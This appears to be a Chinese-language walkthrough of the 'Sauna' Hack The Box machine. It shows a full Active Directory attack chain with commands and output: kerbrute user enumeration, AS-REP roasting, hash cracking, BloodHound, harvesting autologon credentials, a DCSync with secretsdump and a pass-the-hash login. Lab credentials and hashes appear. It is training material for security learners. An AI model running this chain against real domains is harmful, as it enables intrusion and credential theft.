





## Box Info

| OS | Windows |
| --- | --- |
| Difficulty | Easy |

## Nmap

```
[root@kali] /home/kali/Sauna  
❯ nmap Sauna.htb -sV -T4 

PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
80/tcp   open  http          Microsoft IIS httpd 10.0
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos 
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: EGOTISTICAL-BANK.LOCAL0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: EGOTISTICAL-BANK.LOCAL0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
```

把**EGOTISTICAL-BANK.LOCAL**添加到**/etc/hosts**

## Crack Password

在网页中的**about**页面发现了一些团队成员



```
Fergus Smith
Shaun Coins
Hugo Bear 
Bowie Taylor 
Steven Kerb 
Sophie Driver 
```

这里使用一个工具将可能的用户名组合列出

\[github author="urbanadventurer" project="username-anarchy"\]\[/github\]

```
[root@kali] /home/kali/Sauna/username-anarchy (master) ⚡ 
❯ cat usernames.txt 
fergus
fergus.smith
ferguss
fsmith
shaun
shaun.coins
shaunc
scoins
hugo
hugo.bear
hugob
hbear
bowie
bowie.taylor
bowiet
btaylor
steven
steven.kerb
stevenk
skerb
sophie
sophie.driver
sophied
sdriver
```

使用**kerbrute**进行尝试是否存在这些用户

```
[root@kali] /home/kali/Sauna  
❯ ./kerbrute_linux_amd64 userenum -d EGOTISTICAL-BANK.LOCAL usernames.txt --dc EGOTISTICAL-BANK.LOCAL

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.3 (9dad6e1)  Ronnie Flathers @ropnop

  Using KDC(s):
  EGOTISTICAL-BANK.LOCAL:88

  [+] VALID USERNAME:       fsmith@EGOTISTICAL-BANK.LOCAL
  Done! Tested 24 usernames (1 valid) in 1.049 seconds
```

可以看到只存在一个**fsmith**，下面看一下是否开启了**Kerberos** 预身份验证

```
[root@kali] /home/kali/Sauna  
❯ impacket-GetNPUsers -usersfile usernames.txt -no-pass -dc-ip "10.10.xx.xx" EGOTISTICAL-BANK.LOCAL/                              ⏎

$krb5asrep$23$fSmith@EGOTISTICAL-BANK.LOCAL:2bf051fe5d01a87bb394e35afeb5fb52$9109680d602a2ee95749b1c7c8eb999526aaa633047a593d78442d74949dc97d2b565d61ffee5f92ed51a9aa4486561ad901cd7ade464bed9696a10a40fcccabe87883a59903ac99a03e65c16101bf4083dee0e86691cb2060a29a94c983acc7adf6bc16a1abc6fa3d46cea8eb43a1404446698fe5dxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx
```

使用**John the Ripper**进行解密

```
[root@kali] /home/kali/Sauna  
❯ john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt

xxxxxxxxxxxxx   ($krb5asrep$23$fSmith@EGOTISTICAL-BANK.LOCAL)     
```

最后使用**Evil-winrm**进行登录拿到**user.txt**



## Privilege Escalation

## Bloodhound

把**SAUNA.EGOTISTICAL-BANK.LOCAL**添加到**/etc/hosts**

```
[root@kali] /home/kali/Sauna  
❯ bloodhound-python -u fsmith -p "Thestrokes23" -d EGOTISTICAL-BANK.LOCAL -ns 10.10.xx.xx -c All
INFO: Found AD domain: egotistical-bank.local
INFO: Getting TGT for user
INFO: Connecting to LDAP server: SAUNA.EGOTISTICAL-BANK.LOCAL
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 1 computers
INFO: Connecting to LDAP server: SAUNA.EGOTISTICAL-BANK.LOCAL
INFO: Found 7 users
INFO: Found 52 groups
INFO: Found 3 gpos
INFO: Found 1 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: SAUNA.EGOTISTICAL-BANK.LOCAL
INFO: Done in 00M 32S
```

发现一个可以使用**DCSync**的用户：**SVC\_LOANMGR**



两个用户在一个组内，但是**fsmith**和**svc\_loanmgr**之间没有直接联系



## Winpeas

我这里下载的是**winpeasx64.exe**

- [Releases · peass-ng/PEASS-ng](https://github.com/peass-ng/PEASS-ng/releases)

在目标系统上发现了自动登录凭证

```
ÉÍÍÍÍÍÍÍÍÍ͹ Looking for AutoLogon credentials
    Some AutoLogon credentials were found
    DefaultDomainName             :  EGOTISTICALBANK
    DefaultUserName               :  EGOTISTICALBANK\svc_loanmanager
    DefaultPassword               :  MoneymakesthXXXXXXXXXXX
```

那么接下来就可以使用**DCSync**攻击了

## **DCSync**

使用**impacket-secretsdump**来伪装成**DC**获取域控上的**hash**

```
[root@kali] /home/kali/Sauna  
❯ impacket-secretsdump 'EGOTISTICAL-BANK.local/svc_loanmgr:Moneymakestheworldgoround!'@10.10.xx.xx
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaxxxxxxxxxxx:823452073d75b9dxxxxxxxxxxxxx:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:4a8899428cad97676ff802229e466e2c:::
```

通过**evil-winrm**使用**hash**登录，拿到**root.txt**



## Summary

`User`：通过官网上的相关资料尝试爆破用户名，使用工具**username-anarchy**来获取一些常见的用户名，通过**Kerberos**的未设置预认证的账户获取到了用户**hash**进行登录。

`Root`：**Bloodhound**分析可以进行**DCSync**攻击，但是和当前用户没有关联，只能上传**Winpeas**查看系统详细信息，获取到了自动登录的密码，进而进行**DCSync**
